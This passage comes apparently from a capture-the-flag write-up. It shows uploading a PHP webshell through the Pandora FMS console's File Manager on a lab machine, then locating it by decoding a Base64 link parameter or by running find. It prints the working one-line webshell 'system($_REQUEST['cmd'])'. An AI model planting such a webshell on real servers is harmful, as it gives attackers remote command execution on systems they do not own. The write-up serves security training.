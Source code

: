 #### Upload Webshell

I'll go to the File manager page though "Admin tools" \> "File Manager",
and click the button to upload files. I'll give it `0xdf.php`, a simple
PHP webshell:



    <?php system($_REQUEST['cmd']); ?>



It accepts it:

![](/img/image-20220519140526307.png)

And the file shows up in the list of files, in red, with a warning when
I hover over it:

![](/img/image-20220519140554126.png)

Clicking the link actually downloads the file, which isn't what I want.

#### Find Webshell

The link to the file is
`/pandora_console/include/get_file.php?file=L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvMHhkZi5waHA%3D&hash=fac31c21cdd95f26f4a11073d7828e2c`.
The `file` parameter looks like Base64, and it does decode to the file
URL:



    daniel@pandora:/var/www/pandora/pandora_console$ echo "L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvMHhkZi5waHA=" | base64 -d
    /pandora_console/images/0xdf.php



Alternatively, since I have a shell as daniel, I could just find the
file:



    daniel@pandora:/var/www/pandora/pandora_console$ find . -name 0xdf.php
    ./images/0xdf.php
